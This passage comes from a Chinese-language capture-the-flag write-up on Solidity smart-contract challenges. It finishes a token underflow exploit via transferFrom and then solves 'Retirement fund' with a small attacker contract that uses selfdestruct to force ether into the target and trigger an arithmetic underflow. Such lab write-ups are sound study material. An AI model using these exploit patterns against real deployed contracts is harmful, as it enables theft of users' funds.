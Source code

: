 
- 部署该合约

- 使用小号B调用transferFrom，从A转账至少501给B。

  顺应的自动调用了_transfer函数，将B的余额减至小于0，从而出现下溢出

- 再调用transfer函数，给A转账100000000，即可。

## Retirement fund

### 要求

- 从这"可怜人"的养老金里拿走他所有的钱(虽然部署合约的养老金是从我账户上扣的...)

### 漏洞

- 考点就是selfdestruct函数的运用

![image-20220809143153398](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220809143153398.png)

- 让withdrawn>0的思路一：让startBalance>address(this).balance；

  很显然，这点是做不到的

- 另一个思路就是使用selfdestruct函数来强行给address(this).balance转账，从而使address(this).balance>startBalance，造成withdrawn出现下溢，即完成攻击。

### 攻略

- 新建一个合约A，往里面充点钱

  ```solidity
  pragma solidity ^0.6.0;
  
  contract A{
      address public owner;
      uint public balance;
      address public instance;
      constructor(address _owner,address _instance) public payable{
          owner = _owner;
          instance = _instance;
          balance = msg.value;
      }
  
      function withdraw() public payable{
          selfdestruct(instance);
      }
  
  }
  ```

- 调用合约A的withdraw，将余额强行转给合约B的实例地址。

- 调用penaltycollect，即完成挑战。
